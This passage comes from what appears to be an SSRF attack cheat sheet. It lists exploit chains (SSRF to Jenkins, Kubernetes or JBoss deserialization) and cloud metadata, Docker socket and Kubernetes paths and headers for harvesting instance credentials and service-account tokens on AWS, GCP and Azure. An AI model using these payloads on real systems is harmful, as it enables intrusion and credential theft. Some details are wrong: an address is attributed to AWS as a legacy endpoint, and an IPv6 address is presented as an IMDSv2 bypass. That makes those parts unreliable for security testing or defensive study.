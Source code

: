     - **SSRF + RCE**
      - Leverage SSRF to access services that might allow command execution
      - Example: Access Jenkins script console, Kubernetes API, or similar management services
    
    - **SSRF + Deserialization**
      - Use SSRF to trigger deserialization endpoints
      - Example: Access JBoss JMXInvokerServlet or similar endpoints that accept serialized data

  - **Multi-stage SSRF attacks**
    - Use initial SSRF to discover internal services
    - Then target specific services with crafted payloads
    - Map internal network topology through SSRF scanning
    - Chain multiple vulnerabilities for deeper access

- **SSRF in cloud environments**

  - **AWS-specific techniques**
    - **Using IMDS to access credentials**
      - Path: `/latest/meta-data/iam/security-credentials/[ROLE_NAME]`
      - Returns temporary access credentials for the instance role
    - **Accessing user data**
      - Path: `/latest/user-data`
      - May contain bootstrap scripts with secrets
    - **Instance identity documents**
      - Path: `/latest/dynamic/instance-identity/document`
      - Contains instance details that might be useful for further attacks
    - **Bypassing IMDSv2 protection**
      - IMDSv2 requires a token: `X-aws-ec2-metadata-token`
      - Try other IP addresses: `fd00:ec2::254`
      - Try legacy endpoint: `http://100.100.100.200`

  - **GCP-specific techniques**
    - **Accessing service account tokens**
      - Path: `/computeMetadata/v1/instance/service-accounts/default/token`
      - Required header: `Metadata-Flavor: Google`
    - **Getting service account information**
      - Path: `/computeMetadata/v1/instance/service-accounts/`
      - Path: `/computeMetadata/v1/instance/service-accounts/default/email`
    - **Accessing project attributes**
      - Path: `/computeMetadata/v1/project/`
      - Path: `/computeMetadata/v1/project/attributes/`

  - **Azure-specific techniques**
    - **Accessing MSI tokens**
      - Path: `http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/`
      - Required header: `Metadata: true`
    - **Instance information**
      - Path: `http://169.254.169.254/metadata/instance?api-version=2021-02-01`

  - **Container-based environments**
    - **Docker socket exploitation**
      - Path: `http://localhost:2375/containers/json`
      - Path: `http://localhost:2375/images/json`
    - **Kubernetes API**
      - Path: `https://kubernetes.default.svc`
      - Service account tokens typically at: `/var/run/secrets/kubernetes.io/serviceaccount/token`
